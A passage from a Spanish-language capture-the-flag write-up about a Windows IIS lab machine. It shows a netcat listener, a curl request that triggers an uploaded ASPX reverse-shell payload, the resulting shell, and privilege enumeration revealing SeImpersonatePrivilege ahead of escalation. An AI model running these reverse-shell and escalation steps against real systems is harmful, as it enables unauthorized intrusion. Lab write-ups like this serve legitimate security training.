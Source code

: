 Ahora nos ponemos en escucha por el puerto que pusiste en mi caso el `443` con `rlwrap` para mas comodo 

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Hacemos la peticion

```bash
❯ curl http://10.10.26.76:49663/nt4wrksv/ziz.aspx
```

Y ganamos acceso

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.28.226] from (UNKNOWN) [10.10.26.76] 49802
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

```

## Escalada de privilegios

Tenemos el `SeImpersonatePrivilege`

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.28.226] from (UNKNOWN) [10.10.26.76] 49802
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami 
whoami 
iis apppool\defaultapppool

whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\windows\system32\inetsrv>
```
